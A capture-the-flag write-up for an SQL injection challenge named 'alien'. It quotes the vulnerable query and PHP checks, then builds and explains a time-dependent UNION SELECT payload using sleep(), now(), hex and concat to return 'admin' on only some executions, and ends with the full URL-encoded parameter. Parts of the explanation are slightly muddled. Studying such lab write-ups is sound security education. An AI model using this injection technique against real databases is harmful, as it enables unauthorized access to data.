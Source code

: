 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 32
tags: [SQLi, Self-modification]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d4c56057-01fa-4f0c-8360-441f987427c3)

We are provided with the SQL queries:

```sql
SELECT id FROM prob_alien WHERE no={$_GET[no]}
```

```sql
SELECT id FROM prob_alien WHERE no='{$_GET[no]}'
```

In order to solve this challenge, we have to pass the following checks:

```php
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] !== "admin") exit("sandbox1");
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] === "admin") exit("sandbox2");
$r = mysqli_fetch_array(mysqli_query($db,$query2));
if($r['id'] === "admin") exit("sandbox");
$r = mysqli_fetch_array(mysqli_query($db,$query2));   if($r['id'] === "admin") solve("alien");
```

- The first query checks if the fetched `id` is not `"admin"`. If true, it exits.
- The second query checks if the fetched `id` is `"admin"`. If true, it exits.
- The third query checks if the fetched `id` is `"admin"`. If true, it exits.
- The fourth query checks if the fetched `id` is `"admin"`. If true, it calls a function `solve("alien")`.

In order to solve this challenge, we need to create a self-modifying query.


## Self-modifying query

```sql
1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)%23' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

- **`(!sleep(1) && now() % 2 == 1)`**:
	- `!sleep(1)` effectively becomes `False` or `0` since after 1 second, the `sleep` function returns. Otherwise it is `True` or `1`.
	- `now() % 2 == 1` checks if the current time in seconds is an odd number.
	- Combine these using the `&&` (logical AND), which evaluates to `False` or `0` if `!sleep(1)` is `0`. Otherwise it results in `True` or `1`.
- **`hex(10+(!sleep(1)&&now()%2=1))`**:
	- If result of `sleep` is `1`, `hex(10+1)` results in `b`.
	- If result of `sleep` is `0`, `hex(10+0)` results in `a`.
- **`lower(hex(10+(!sleep(1)&&now()%2=1)))`**:
	- Converts the entire string to lowercase.
- **`concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)`**
	- Concatenates the string to `dmin`.
	- If result of `sleep` is `1`, `concat(0x11,0x646d696e)` results in `bdmin`.
	- If result of `sleep` is `0`, `concat(0x10,0x646d696e)` results in `admin`.

&nbsp;

If we provide the following URI parameter:

```
?no=1%20UNION%20SELECT%20concat(lower(hex(10%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%27%20UNION%20SELECT%20concat(lower(hex(9%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%20
```

The resultant first query becomes:

```sql
SELECT id FROM prob_alien WHERE no=1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)#' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ae221b2c-088e-40c2-9bf4-72d563eb8e9c)
